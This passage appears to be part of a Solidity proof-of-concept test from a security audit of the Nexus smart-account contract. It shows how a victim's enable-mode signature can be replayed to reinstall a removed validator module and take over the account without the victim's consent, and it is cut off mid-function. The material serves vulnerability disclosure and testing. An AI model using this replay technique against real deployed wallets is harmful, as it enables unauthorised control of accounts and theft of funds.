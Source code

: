 ```solidity

        // Append enable mode data to op.signature
        bytes memory enableModePrefix = abi.encodePacked(
            MODULE_TYPE_VALIDATOR,
            bytes4(uint32(data.length)),
            data,
            bytes4(uint32(enableModeSignature.length)),
            enableModeSignature
        );
        op.signature = abi.encodePacked(enableModePrefix, op.signature);

        // Alice executes transaction to install moduleToEnable
        PackedUserOperation[] memory userOps = new PackedUserOperation[](1);
        userOps[0] = op;
        ENTRYPOINT.handleOps(userOps, payable(ALICE.addr));

        // moduleToEnable is installed in Bob's account
        assertTrue(BOB_ACCOUNT.isModuleInstalled(MODULE_TYPE_VALIDATOR, moduleToEnable, ""));

        // Alice turns malicious - Bob uninstalls moduleToEnable to remove her as owner
        bytes memory uninstallModuleData = abi.encodeCall(Nexus.uninstallModule, (
            MODULE_TYPE_VALIDATOR,
            moduleToEnable,
            abi.encode(address(1), abi.encodePacked(MODULE_TYPE_VALIDATOR))
        ));
        executeSingle(
            BOB,
            BOB_ACCOUNT,
            address(BOB_ACCOUNT),
            0,
            uninstallModuleData,
            EXECTYPE_DEFAULT
        );
        
        // moduleToEnable has been uninstalled
        assertFalse(BOB_ACCOUNT.isModuleInstalled(MODULE_TYPE_VALIDATOR, moduleToEnable, ""));

        // Re-install moduleToEnable with the same enableModeSignature
        op.nonce = getNonce(address(BOB_ACCOUNT), MODE_MODULE_ENABLE, moduleToEnable);
        op.signature = signMessage(ALICE, ENTRYPOINT.getUserOpHash(op)); 

        // note: enableModeSignature, which is signed by Bob, is unchanged
        op.signature = abi.encodePacked(enableModePrefix, op.signature);
        
        // Alice executes transaction to re-install moduleToEnable
        /* 
        note: Notice how Alice can execute a second transaction without Bob signing anything,
        she could even change op.calldata to make the account do anything she wants
        */
        userOps[0] = op;
        ENTRYPOINT.handleOps(userOps, payable(ALICE.addr));
        
        // moduleToEnable has been installed in Bob's account with the same enableModeSignature
        assertTrue(BOB_ACCOUNT.isModuleInstalled(MODULE_TYPE_VALIDATOR, moduleToEnable, ""));
    }

    function _getEnableModeDataAndHash() internal view returns (bytes memory, bytes32) {
        // Initialize mockMultiModule with Alice as owner
        bytes32 owner = bytes32(bytes20(ALICE_ADDRESS));
        bytes memory moduleInitData = abi.encodePacked(uint8(MODULE_TYPE_VALIDATOR), owner);

        // Build enableModeSignature
        bytes32 structHash = keccak256(abi.encode(
```